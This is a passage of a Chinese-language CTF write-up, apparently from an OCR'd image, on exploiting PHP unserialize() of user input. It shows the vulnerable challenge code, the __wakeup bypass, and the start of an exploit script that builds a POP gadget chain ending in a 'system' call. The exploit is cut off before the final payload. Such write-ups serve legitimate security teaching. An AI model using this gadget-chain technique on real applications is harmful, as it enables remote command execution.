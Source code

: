 ```
    public function __call($name, $arguments)
    {
        $num = $name;
        $this->$num();
    }

    private function show()
    {
        return $this->code->secret;
    }
}


if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
    $a->setPassword(md5(mt_rand()));
} else {
    $a = new show("Ctfer");
    echo $a->show();
}
```

可以看到这里有个难点就是wakeup的绕过：

```
    public function __wakeup()
    {
        $this->cmd = "";
        die("Go listen to Jay Chou's secret-code! Really nice");
    }
```

exp:

```
<?php
class sorry
{
   public $name;
    public $password;
    public $key;
    public $hint;
}

class show
{
    public $ctf;

}
class secret_code
{
    public $code;
}

class fine
{
    public $cmd;
    public $content;
    public function __construct()
    {
        $this->cmd = 'system';
        $this->content = ' /';
    }
}

```